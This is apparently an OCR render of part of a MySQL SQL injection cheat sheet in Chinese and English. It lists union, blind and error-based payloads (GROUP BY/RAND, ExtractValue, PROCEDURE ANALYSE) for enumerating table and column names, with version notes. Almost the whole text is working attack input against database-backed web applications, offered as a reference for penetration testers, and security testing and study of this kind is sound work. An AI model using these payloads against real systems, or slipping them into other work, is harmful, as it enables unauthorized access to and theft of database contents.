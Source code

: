 	UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
	
	提示：
	version=10 代表 Mysql 5 

__Blind__

	AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'

__Error__

	AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2)))

	(@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0);

	AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));-- Available in 5.1.5

__检索列__

__union__

	UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'

__Blind__

	AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'

__Error__


	AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2)))

	(@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0);

	AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));-- Available in MySQL 5.1.5

	AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)-- Fixed in MySQL 5.1

	AND (SELECT * FROM (SELECT * FROM SOME_EXISTING_TABLE JOIN SOME_EXISTING_TABLE b) a)

	AND (SELECT * FROM (SELECT * FROM SOME_EXISTING_TABLE JOIN SOME_EXISTING_TABLE b USING (SOME_EXISTING_COLUMN)) a)

__PROCEDURE ANALYSE()__ 程序分析

	PROCEDURE ANALYSE()

	注意：
	Web应用程序需要在要注入的SQL查询中显示所选列之一。

	例子：

	Given the query SELECT username, permission FROM Users WHERE id = 1;

	1 PROCEDURE ANALYSE()	Get the first column's name
	1 LIMIT 1,1 PROCEDURE ANALYSE()	Get the second column's name
	1 LIMIT 2,1 PROCEDURE ANALYSE()	Get the third column's name
